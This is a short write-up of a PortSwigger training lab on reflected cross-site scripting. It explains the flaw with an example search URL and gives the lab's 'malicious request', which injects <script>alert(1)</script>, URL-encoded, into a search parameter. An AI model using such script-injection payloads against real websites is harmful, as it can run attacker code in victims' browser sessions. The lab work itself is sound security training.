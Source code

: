 # Reflected XSS into HTML context with nothing encoded

[Lab in PortSwigger](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)

## Definition
Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:
```
https://insecure-website.com/search?term=gift
```

The application echoes the supplied search term in the response to this URL:
```
<p>You searched for: gift</p>
```

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:
```
https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>
```

This URL results in the following response:
```
<p>You searched for: <script>/* Bad stuff here... */</script></p>
```

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application. 

## Notes
his lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function.

**Normal Request**
```
https://0ac9001e0384ecdac178292d005d00fd.web-security-academy.net/?search=<term>
```

**Malicious Request**
```
# search=<script>alert(1)</script>
https://0ac9001e0384ecdac178292d005d00fd.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E
```

## Key Words
> xss, reflected